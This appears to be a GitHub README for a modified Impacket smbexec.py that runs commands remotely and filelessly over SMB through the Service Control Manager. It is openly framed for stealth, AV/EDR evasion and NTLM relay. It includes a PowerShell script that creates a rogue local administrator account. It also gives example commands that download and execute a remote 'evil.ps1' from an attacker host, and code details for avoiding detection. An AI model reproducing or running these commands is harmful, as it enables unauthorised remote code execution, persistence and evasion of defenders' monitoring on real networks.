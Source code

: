 Modified SMB Exec
========

This is a minimal modification of Impacket’s smbexec.py that adds support for a new flag:

```
--exec-cmd "<command>"
```

Purpose
========
The tool executes a single command remotely via Service Control Manager (SCM) over SMB (port 445) without writing any files to disk.

Key Changes
========
- Adds an --exec-cmd option to run a one-liner directly.
- Uses SCM over RPC for execution, similar to the original smbexec, but avoids the batch file creation step.
- Helps with AV evasion by keeping execution fileless.
- Still uses the same underlying Impacket framework and authentication methods.

Example Usage
========

Host a powershell script that adds a local administrator on the target machine

```
$Username = "fakeadmin"
$Password = "Password01"
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force
New-LocalUser -Name $Username -Password $SecurePassword -FullName "Fake Admin" -Description "Fake Admin" -PasswordNeverExpires
Add-LocalGroupMember -Group "Administrators" -Member $Username
```

Call the powershell script 
```
 python3 smbexec.py  ./administrator:Password01@target-host --exec-cmd='cmd.exe /c powershell.exe iex(iwr http://attackerIP:8888/evil.ps1 -usebasicparsing)' 
```

Using Kerberos

```
python3 smbexec.py -k -no-pass domain.local/admin@target-host --exec-cmd='cmd.exe /Q /c powershell.exe iex(iwr http://attackerIP:8888/evil.ps1 -usebasicparsing)' 
```
❓ Why
========
This modified version of smbexec.py is designed for stealthy, fileless command execution using only SMB (port 445) — ideal for NTLM relay scenarios or restricted environments where other ports (e.g., 135, 139) are blocked and AV detection is a concern.

In the original implementation, command execution works by:

Constructing a batch file path:
```
self.__batchFile = '%TEMP%\\' + BATCH_FILENAME
Preparing the shell command using %COMSPEC% (typically cmd.exe) and redirection:
```
Preparing the shell command using %COMSPEC% (typically cmd.exe) and redirection:
```
self.__shell = '%COMSPEC% /Q /c '
command = self.__shell + 'echo ' + data + ' ^> ' + self.__output + ' 2^>^&1 > ' + self.__batchFile
command += ' & ' + self.__shell + self.__batchFile
command += ' & del ' + self.__batchFile
Writing the command to disk, executing it, then reading the output file:
```

Writing the command to disk, executing it, then reading the output file:
```
self.__output = '\\127.0.0.1\\' + self.__share + '\\' + OUTPUT_FILENAME
```

This method:

- Creates temp files (.bat, output.txt) on the target
- Uses file redirection (>, 2>&1)
- Is heavily signatured and easily caught by AV/EDR tools


The modified SMBexec does the following:
========

The execution logic skips batch/output file creation entirely. Instead:
The command passed via --exec-cmd is used directly as the service binary path:
```
lpBinaryPathName = "cmd.exe /Q /c powershell.exe  ..."

```
This command is passed to hRCreateServiceW() like so:
```
scmr.hRCreateServiceW(self.__scmr, ..., lpBinaryPathName=command, ...)
```

✅ Result:

- No disk artifacts
- No output redirection or readback
- No %TEMP%, %COMSPEC%, or file paths involved
- Pure in-memory, one-shot execution via SCM over SMB
